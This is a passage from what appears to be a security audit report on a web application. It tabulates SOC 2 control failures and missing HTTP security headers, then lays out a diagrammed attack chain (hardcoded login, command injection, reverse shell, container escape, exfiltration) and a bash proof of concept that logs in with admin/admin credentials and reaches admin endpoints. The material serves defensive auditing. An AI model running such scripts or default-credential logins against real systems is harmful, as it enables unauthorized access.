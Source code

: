### 6.3 SOC 2 Control Failures

| Control | Status | Evidence |
|---------|--------|----------|
| CC6.1 Logical Access | FAIL | Hardcoded credentials |
| CC6.2 User Authentication | FAIL | No MFA |
| CC6.3 Encryption | FAIL | Weak encryption implementation |
| CC7.1 System Monitoring | PARTIAL | Basic logging only |
| CC7.2 Incident Detection | FAIL | No SIEM integration |

## 7. Security Headers Analysis

### Missing Critical Headers:
```nginx
# Current State vs Required State
X-Frame-Options: MISSING → DENY
X-Content-Type-Options: MISSING → nosniff
Strict-Transport-Security: MISSING → max-age=31536000; includeSubDomains; preload
Content-Security-Policy: MISSING → default-src 'self'; script-src 'self'; style-src 'self'
X-XSS-Protection: MISSING → 1; mode=block
Referrer-Policy: MISSING → strict-origin-when-cross-origin
Permissions-Policy: MISSING → geolocation=(), microphone=(), camera=()
```

## 8. Penetration Testing Scenarios

### 8.1 Attack Chain: Complete System Compromise

```mermaid
graph TD
    A[Reconnaissance] --> B[Identify admin/admin]
    B --> C[Login with hardcoded creds]
    C --> D[JWT token obtained]
    D --> E[Command injection via tool API]
    E --> F[Reverse shell established]
    F --> G[Container escape]
    G --> H[Host system compromised]
    H --> I[Lateral movement]
    I --> J[Data exfiltration]
```

**Time to Compromise: < 5 minutes**

### 8.2 Demonstrated Exploits

#### Exploit 1: Authentication Bypass
```bash
#!/bin/bash
# Automated authentication bypass
TARGET="http://localhost:8000"

# Step 1: Login with hardcoded credentials
TOKEN=$(curl -s -X POST "$TARGET/api/v1/auth/login" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=admin&password=admin" | jq -r '.access_token')

echo "Token obtained: $TOKEN"

# Step 2: Access admin endpoints
curl -H "Authorization: Bearer $TOKEN" "$TARGET/api/v1/admin/users"
```